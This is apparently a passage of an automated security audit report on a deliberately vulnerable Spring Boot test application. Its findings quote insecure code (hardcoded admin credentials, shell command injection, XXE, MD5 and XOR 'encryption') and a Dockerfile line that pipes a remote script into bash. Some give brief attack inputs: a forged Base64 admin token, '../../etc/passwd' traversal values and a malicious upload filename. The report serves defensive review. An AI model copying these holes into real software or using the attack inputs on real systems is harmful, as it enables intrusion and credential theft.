**Evidence:** ✓ verified - SecurityConfig:79 encodes the literal string 'password' for the admin account; DemoDataSeeder:88 seeds the same; LegacySqliteUserStore:39 seeds legacy_admin/admin cleartext.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:79
                        .roles("USER")
                        .build(),
                User.withUsername("admin")
                        .password(passwordEncoder.encode("password"))
                        .roles("ADMIN", "USER")
```

**Fix:** Enforce a length and complexity policy and reject reused / breached passwords → ◕ [M-013](#m-013) — Remove hardcoded seed credentials and require externally configured initial adm… (`SecurityConfig.java:79`)

**Classification:** Broken Authentication · [CWE-521](https://cwe.mitre.org/data/definitions/521.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Forged Session Token via Base64-Encoded User ID (HomegrownSessionService)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`

**Issue:** `HomegrownSessionService.issueToken()` encodes the numeric userId as a Base64 string with no HMAC or signature. Any caller who supplies a Base64-encoded integer is resolved to that user ID in the database.

The admin user has ID 100 (seeded by DemoDataSeeder); Base64("100") = "MTAw". Any caller who knows or guesses a valid user ID can impersonate that account on the legacy session endpoints without valid credentials.

**Evidence:** ✓ verified - HomegrownSessionService:21 issues tokens as `Base64.getEncoder().encodeToString(userId.toString().getBytes())` with no HMAC; `resolve()` at line 24 trusts any validly decoded long as a user ID.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21

    public String issueToken(Long userId) {
        return Base64.getEncoder().encodeToString(userId.toString().getBytes(StandardCharsets.UTF_8));
    }

```

**Fix:** ◕ [M-014](#m-014) — Replace Base64 userId tokens with HMAC-signed tokens (`HomegrownSessionService.java:21`)

**Classification:** Broken Authentication · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Hardcoded Credentials

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`

**Issue:** The `initialize()` method seeds the database at startup with three hardcoded accounts when the table is empty (lines 37-39): legacy_alice/password (USER), legacy_bob/password (USER), and legacy_admin/admin (ADMIN). These credentials are visible in source control and match the plaintext values stored in the SQLite file.

Any attacker who reads the source repository, the Docker image layers, or the API response from GET /api/legacy-sqlite/users can authenticate as legacy_admin with password 'admin' and obtain ADMIN role access to the application. Known credentials for an ADMIN-role account are shipped in source code and the Docker image, enabling immediate admin impersonation by any party who reads the codebase or inspects the image.

**Evidence:** ✓ verified - Lines 37-39 of `initialize()` call `save()` with three hardcoded username/password pairs seeded unconditionally when `countUsers()` returns 0.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37
        }
        if (countUsers() == 0) {
            save("legacy_alice", "password", "USER");
            save("legacy_bob", "password", "USER");
            save("legacy_admin", "admin", "ADMIN");
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-015](#m-015) — Move secrets to a managed secret store (`LegacySqliteUserStore.java:37`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Command injection Java src/main/java/com/example/appsecverificationtarget/serve…

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**Issue:** Request data concatenated into a shell/exec argument yields arbitrary command execution.

**Evidence:** ✓ verified

```java
// src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18
    @GetMapping("/lookup")
    public Map<String, Object> lookup(@RequestParam String name) throws IOException, InterruptedException {
        Process process = Runtime.getRuntime().exec(new String[]{"sh", "-c", "echo Result for " + name});
        String output = new String(process.getInputStream().readAllBytes(), StandardCharsets.UTF_8);
        String error = new String(process.getErrorStream().readAllBytes(), StandardCharsets.UTF_8);
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ◕ [M-016](#m-016) — Avoid the shell; pass a fixed argv array with validated, allow-listed arguments (`ToolController.java:18`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica…

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`

**Weakness:** [W-004](#w-004) - Cryptographic security is implemented in application code

**Issue:** A reversible home-grown cipher protecting tokens, passwords, or exported data can be broken without the key, disclosing every protected value.

**Evidence:** ✓ verified - A broken or non-password cryptographic primitive is configured on this path.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◕ [M-017](#m-017) — Replace the weak cryptographic algorithm (`HomegrownCipher.java:14`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica…

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:23`

**Weakness:** [W-004](#w-004) - Cryptographic security is implemented in application code

**Issue:** A reversible home-grown cipher protecting tokens, passwords, or exported data can be broken without the key, disclosing every protected value.

**Evidence:** ✓ verified - A broken or non-password cryptographic primitive is configured on this path.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◕ [M-017](#m-017) — Replace the weak cryptographic algorithm (`HomegrownCipher.java:14`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Non-cryptographic RNG in a security module Java src/main/java/com/example/appse…

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** A predictable RNG in a crypto/auth/token module yields guessable secrets, OTPs, or session identifiers regardless of which line instantiates it.

**Evidence:** ✓ verified

```java
// src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10
public class LegacyTokenService {

    private final Random random = new Random();

    public String nextOtp() {
```

**Fix:** Switch to a cryptographically secure RNG (`crypto.randomBytes` / OS `/dev/urandom`) → ◕ [M-018](#m-018) — Use cryptographically secure random values (`LegacyTokenService.java:10`)

**Classification:** Cryptographic Failures · [CWE-330](https://cwe.mitre.org/data/definitions/330.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Remote Script Pipe Without Integrity Verification (Dockerfile)

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:21`

**Trust boundary gap:** [tb-2](#tb-2) 🌐 External - external → container-image · Authentication: The curl|bash step fetches and executes a script from an external host without authentication or integrity verification, violating the boundary assumption that installation scripts are fetched only f.

**Issue:** Dockerfile line 21 executes `curl -sfL https://example.com/install-agent.sh | bash` during image build. The script is fetched over HTTPS but its integrity is never verified: there is no checksum comparison, no signature check, and no pinned URL (the path is a mutable route).

An attacker who compromises the `example.com` server, who can perform a DNS hijack, or who can intercept TLS termination (e.g. via a MITM on the build runner's network) can deliver an arbitrary shell script that executes as root inside the build container. A compromised or substituted install script executes as root at build time, backdooring every image produced from this Dockerfile.

**Evidence:** ✓ verified - Dockerfile line 21 pipes a remote shell script directly into `bash` with no checksum or signature verification, executing arbitrary content from an external server during the build.

```dockerfile
// Dockerfile:21

# Remote script piped straight into a shell during build.
RUN curl -sfL https://example.com/install-agent.sh | bash

RUN mvn -q -DskipTests package
```

**Fix:** ◕ [M-019](#m-019) — Pin third-party dependencies to immutable versions (`Dockerfile:21`)

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · H2 Console Clickjacking via sameOrigin Frame Policy

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - H2 In-Memory Database  ·  **Location:** `src/main/resources/application.yml:11`

**Issue:** The Spring Security configuration sets `frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin)` instead of `DENY`, and CSRF protection is disabled globally. Because the H2 console is hosted on the same origin as the application, any stored XSS in the application (or any other attacker-controlled same-origin page) can embed `/h2-console/` in a transparent iframe and overlay a deceptive UI.

A victim who is on the same-origin page and clicks the overlaid element interacts with the hidden H2 console, executing attacker-chosen SQL statements (for example, modifying ownership records or inserting rogue orders). An attacker with any same-origin content injection vector can drive arbitrary SQL execution through the H2 console without the victim knowing they are interacting with a database management interface.

**Evidence:** ✓ verified - `application.yml:11` enables the H2 console; `SecurityConfig.java:29` sets frameOptions to sameOrigin rather than DENY, allowing same-origin iframe embedding.

**Fix:** Add a frame-ancestors directive to the Content Security Policy → ◕ [M-020](#m-020) — Add framing and clickjacking protections (`application.yml:11`)

**Classification:** Unauthenticated Management Plane · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · CSRF Protection Globally Disabled in SecurityConfig

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`

**Issue:** SecurityConfig:28 calls `.csrf(AbstractHttpConfigurer::disable)`, removing all CSRF protection for every endpoint. Any state-changing request (POST /orders, POST /documents, PUT /api/profile/me, POST /legacy/admin/users/{id}/promote) can be triggered cross-site by embedding an HTML form on an attacker-controlled page.

A logged-in user visiting a malicious site causes their browser to silently submit that form using their JSESSIONID cookie, performing arbitrary mutations as the victim. Any authenticated user's session can be hijacked to perform arbitrary state-changing operations on their behalf by an attacker hosting a malicious page.

**Evidence:** ✓ verified - SecurityConfig:28 applies `AbstractHttpConfigurer::disable` to the `csrf()` configurer, removing Spring Security's built-in SynchronizerTokenPattern for all endpoints.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-021](#m-021) — Add anti-CSRF protection to state-changing requests (`SecurityConfig.java:28`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Homegrown CSRF Token Validates Presence Only, Not Value (CsrfSettingsController)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/csrf/CsrfSettingsController.java:47`

**Issue:** `CsrfSettingsController.update()` at line 47 checks `formToken == null || formToken.isBlank()` and rejects blank tokens - but never calls `csrfTokenService.currentToken(session)` to compare the submitted token against the session-stored one. Any non-blank string submitted as formToken passes the check.

Combined with the global CSRF disable and the permissive CORS policy, a cross-origin attacker can POST to /csrf/settings with `formToken=x` to update the victim's contact email. The custom CSRF guard on /csrf/settings provides no actual protection: any non-blank token bypasses it, allowing cross-site form submission.

**Evidence:** ✓ verified - CsrfSettingsController:47 checks only for a blank formToken; `CsrfTokenService.currentToken()` is imported but never called in the update path, making the validation purely cosmetic.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-022](#m-022) — Add anti-CSRF protection to state-changing requests (`CsrfSettingsController.java:47`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Unrestricted File Upload with No MIME Type or Extension Validation

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:17`

**Issue:** `BusinessFileStorage.store()` uses `file.getOriginalFilename()` directly (line 17) to name the stored file without any content-type validation, file extension allowlist, or path sanitization. An attacker uploads a file named `../../webapp/malicious.jsp` to the POST /documents or POST /orders endpoint.

The `directory.resolve(fileName)` call at line 23 uses `Path.resolve()`, which on Unix normalizes relative traversal but does not block `../` in the originalFilename if it is treated as a simple filename component. An authenticated attacker can upload a server-side script or overwrite files outside the intended upload directory, potentially achieving remote code execution.

**Evidence:** ✓ verified - BusinessFileStorage:17 extracts `file.getOriginalFilename()` with no sanitization; line 23 calls `directory.resolve(fileName)` allowing relative path segments in the filename.

```java
// src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:17
            return null;
        }
        String fileName = file.getOriginalFilename();
        if (fileName == null || fileName.isBlank()) {
            fileName = "upload.bin";
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-023](#m-023) — Validate file type and sanitize filename (`BusinessFileStorage.java:17`)

**Classification:** Insecure File Handling · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · XML External Entity Injection in XmlPreviewController (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22`

**Issue:** `XmlPreviewController.preview()` creates a DocumentBuilderFactory with default settings (external entity processing enabled) and parses attacker-supplied XML. An attacker posts XML containing an ENTITY declaration referencing a local file (e.g., `file:///etc/passwd`) or an external URL, causing the parser to read the resource and embed its contents in the parsed document.

The POST /api/xml/preview endpoint is listed as `permitAll()` in SecurityConfig:42. Unauthenticated server-side file read and internal network probing via XML external entity injection.

**Evidence:** ✓ verified - XmlPreviewController:22 calls `DocumentBuilderFactory.newInstance()` and `builder.parse()` with no `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` call.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/XmlPreviewController.java:22
    @PostMapping(value = "/preview", consumes = {MediaType.APPLICATION_XML_VALUE, MediaType.TEXT_XML_VALUE, MediaType.TEXT_PLAIN_VALUE})
    public Map<String, Object> preview(@RequestBody String xml) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document document = builder.parse(new InputSource(new StringReader(xml)));
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ◕ [M-024](#m-024) — Disable XML external entity (XXE) resolution (`XmlPreviewController.java:22`)

**Classification:** Insecure File Handling · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · No Audit Log for H2 Console SQL Queries

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - H2 In-Memory Database  ·  **Location:** `src/main/resources/application.yml:16`

**Issue:** The H2 console is reachable without authentication and allows arbitrary SQL execution, yet no query-level audit log is configured. `spring.jpa.show-sql: false` (`application.yml:16`) silences Hibernate's SQL log, but console queries bypass JPA entirely and go directly to the H2 JDBC engine - they would not appear in Hibernate logs even if logging were enabled.

There is no Spring Security audit event (no authenticated principal to log), no JDBC interceptor, and no access log configured in `application.yml`. Post-incident forensic reconstruction of console-based data theft or destruction is impossible - there is no record of which SQL statements were executed or from which IP address.

**Evidence:** ✓ verified - `application.yml:16` disables JPA SQL logging; the H2 console queries bypass the JPA layer entirely, and no JDBC-level audit interceptor is configured.

```yaml
// src/main/resources/application.yml:16
      ddl-auto: create-drop
    open-in-view: false
    show-sql: false
    properties:
      hibernate:
```

**Fix:** ◕ [M-025](#m-025) — Add security audit logging (`application.yml:16`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Cleartext Credentials Written to Application Logs (CredentialLoggingFilter)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25`

**Issue:** `CredentialLoggingFilter.doFilterInternal()` at line 25 calls `log.info("Processing sign-in for username={} password={}", username, password)` on every POST /login request before the authentication attempt. The plaintext password is written to the application log at INFO level, which is retained by any log aggregation pipeline (Loki, Elasticsearch, Splunk).

An attacker with read access to application logs - via the Spring Actuator /actuator/logfile endpoint or a compromised log store - obtains plaintext credentials for every login attempt, including successful ones. All user credentials submitted to the login form are permanently stored in plaintext in application logs, enabling offline credential harvest from any log storage system.

**Evidence:** ✓ verified - CredentialLoggingFilter:25 passes the request parameter `password` directly into the SLF4J log call at INFO level.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/CredentialLoggingFilter.java:25
            String username = request.getParameter("username");
            String password = request.getParameter("password");
            log.info("Processing sign-in for username={} password={}", username, password);
        }
        filterChain.doFilter(request, response);
```

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ◕ [M-026](#m-026) — Remove password parameter from CredentialLoggingFilter log statement (`CredentialLoggingFilter.java:25`)

**Classification:** Missing Audit Logging & Accountability · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · No Audit Logging for User Privilege Operations in LegacyAdminBoardController

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`

**Issue:** `LegacyAdminBoardController.promote()` and `delete()` (lines 29-39) modify user roles and delete accounts without recording any audit event. Because these endpoints are in `permitAll()` and require no authentication, there is no authenticated actor to attribute actions to.

If privilege escalation or account deletion occurs via this path, there is no application-layer record of who triggered the action, when, or which account was affected. An attacker who promotes an account to admin or deletes a user via the legacy admin board leaves no evidence in application logs, preventing forensic attribution.

**Evidence:** ✓ verified - LegacyAdminBoardController:29 and :33 call `appUserRepository.save()` and `appUserRepository.delete()` with no log statement, audit event, or structured security event emission.

```java
// src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29

    @PostMapping("/legacy/admin/users/{id}/promote")
    public String promote(@PathVariable Long id) {
        AppUser user = load(id);
        user.setAdmin(true);
```

**Fix:** ◕ [M-027](#m-027) — Add security audit logging (`LegacyAdminBoardController.java:29`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Dockerfile base image must be digest-pinned

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile base image must be digest-pinned: Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
# Intentionally insecure container image for the appsec-verification-target fixture.
# This is a scan target, not a packaging example. Do not harden.

```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◕ [M-028](#m-028) — Pin the container base image to an immutable digest (`Dockerfile:1`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Package-lock.json present and committed

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `package-lock.json`

**Issue:** `package-lock.json` present and committed: Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

**Evidence:** ✓ verified

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◕ [M-029](#m-029) — Pin the container base image to an immutable digest (`package-lock.json:0`)

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Cleartext Credential Store Baked into Image (Dockerfile)

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Docker Container Image  ·  **Location:** `Dockerfile:18`

**Issue:** `COPY . /app` line 18 copies the entire build context, including `runtime/legacy-auth.sqlite`, into the image filesystem. The SQLite database contains cleartext passwords as noted in `KNOWN_SECRETS`. All accounts in the legacy auth store are exposed in cleartext to anyone with image pull access.

**Evidence:** ✓ verified - `COPY . /app` at Dockerfile:18 copies the entire repo tree, which includes `runtime/legacy-auth.sqlite` containing cleartext user passwords, into a permanent image layer.

```dockerfile
// Dockerfile:18

# Copy whole build context, including runtime/ credential stores and legacy SQLite auth db.
COPY . /app

# Remote script piped straight into a shell during build.
```

**Fix:** ◕ [M-030](#m-030) — Stop storing sensitive data in cleartext (`Dockerfile:18`)

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Path Traversal via Name Parameter in `FileReadController.read`

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`

**Weakness:** [W-003](#w-003) - Input handling lacks enforced boundary validation

**Issue:** `FileReadController.read()` constructs a file path as `Path.of("runtime/documents/" + name)` without calling `.normalize()` or `.toRealPath()` to canonicalize the result. GET /api/files/read is listed as `permitAll()` in SecurityConfig:37.

An attacker sends ?name=../../application.yml or ?name=../../etc/passwd to read any file accessible to the JVM process, including application configuration containing the integration-token and H2 connection details. Unauthenticated read access to any file the JVM process can access, including application secrets, OS password files, and private keys.

**Evidence:** ✓ verified - FileReadController:19 calls `Path.of("runtime/documents/" + name)` with no normalization or prefix check; `Files.readString()` at line 20 reads the resulting path.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19
    @GetMapping("/read")
    public Map<String, String> read(@RequestParam String name) throws IOException {
        Path path = Path.of("runtime/documents/" + name);
        return Map.of(
                "path", path.toString(),
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◕ [M-031](#m-031) — Constrain file paths to a safe base directory (`FileReadController.java:19`)

**Classification:** Insecure File Handling · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/resources/application.yml:33`

**Issue:** Configures `management.endpoints.web.exposure.include: "*"` (exposing all actuator endpoints) and `management.endpoint.env.show-values: ALWAYS` + `configprops.show-values: ALWAYS`. SecurityConfig:33 lists /actuator/** as `permitAll()`.

As a result, any unauthenticated caller can GET /actuator/env to retrieve all environment variables including `integration-token: loca**** (28 chars)`, DB connection strings, and any secret injected via environment. Unauthenticated access to all environment variables, heap memory (including live session tokens and user data), and full application configuration.

**Evidence:** ✓ verified - `application.yml:30-37` sets `include: *` with `show-values: ALWAYS`; SecurityConfig:33 permits all /actuator/** paths without authentication.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◕ [M-032](#m-032) — Stop exposing internal information to clients (`application.yml:33`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · AES/ECB Mode with Hardcoded Key in LegacyCryptoService

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:13`

**Issue:** LegacyCryptoService uses `Cipher.getInstance("AES/ECB/PKCS5Padding")` with the hardcoded 16-byte key `0123456789abcdef` (line 13). ECB mode encrypts each 16-byte block independently: identical plaintext blocks produce identical ciphertext blocks, making plaintext patterns visible in the ciphertext.

The hardcoded key means any developer or attacker who reads the source code can decrypt any value encrypted by this service. All data encrypted by LegacyCryptoService is recoverable by anyone with the source code; ECB mode additionally reveals structural plaintext patterns.

**Evidence:** ✓ verified - LegacyCryptoService:13 defines `EXPORT_KEY = "0123456789abcdef"` as a static final; line 17 specifies `AES/ECB/PKCS5Padding` with no IV.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◕ [M-033](#m-033) — Move cryptographic keys to a managed secret store (`LegacyCryptoService.java:13`)

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · XOR Cipher with Hardcoded Key Used for Password Storage (HomegrownCipher)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** HomegrownCipher uses XOR with a hardcoded key `orderdesk-legacy-key` (line 8) to 'encrypt' passwords stored in the VaultCredential table. XOR encryption is perfectly reversible by anyone who knows the key, and the key is embedded in the source code.

DemoDataSeeder sequesters the ciphertext in the vault_credentials table. All passwords stored via CustomCryptoService (vault_credentials table) are immediately recoverable by anyone with database read access.

**Evidence:** ✓ verified - HomegrownCipher:8 defines `KEY = "orderdesk-legacy-key".getBytes()`; `encode()` and `decode()` perform identical XOR, making encryption and decryption the same operation.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◕ [M-034](#m-034) — Replace the weak cryptographic algorithm (`HomegrownCipher.java:8`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · MD5 Used for Password Hashing in LegacyPasswordService

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `LegacyPasswordService.hashForAudit()` at line 15 uses `MessageDigest.getInstance("MD5")` to hash passwords before storing them in the `app_users.password_hash` column. MD5 is a fast, unsalted hash with no computational cost - precomputed rainbow tables cover common passwords, and a GPU can compute billions of MD5 hashes per second.

The DemoDataSeeder stores MD5 hashes of all seeded user passwords. Any MD5-hashed password stored in app_users is recoverable offline from a rainbow table or GPU brute force in seconds.

**Evidence:** ✓ verified - LegacyPasswordService:15 calls MessageDigest.getInstance("MD5") with no salt; DemoDataSeeder:77 uses `legacyPasswordService.hashForAudit()` for all seeded accounts.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-035](#m-035) — Hash passwords with a strong, salted algorithm (`LegacyPasswordService.java:15`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Server-Side Request Forgery via Unrestricted URL Fetch

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:23`

**Trust boundary gap:** [tb-6](#tb-6) - spring-app → external · Egress destination: User-supplied URL is forwarded to RestTemplate without destination validation, breaking the egress-destination leg.

**Issue:** `IntegrationController.fetch()` passes the caller-supplied url parameter directly to `restTemplate.getForObject(url, String.class)` with no scheme allowlist, host allowlist, or DNS rebinding protection. The endpoint GET /api/integration/fetch is listed as `permitAll()` in SecurityConfig:37.

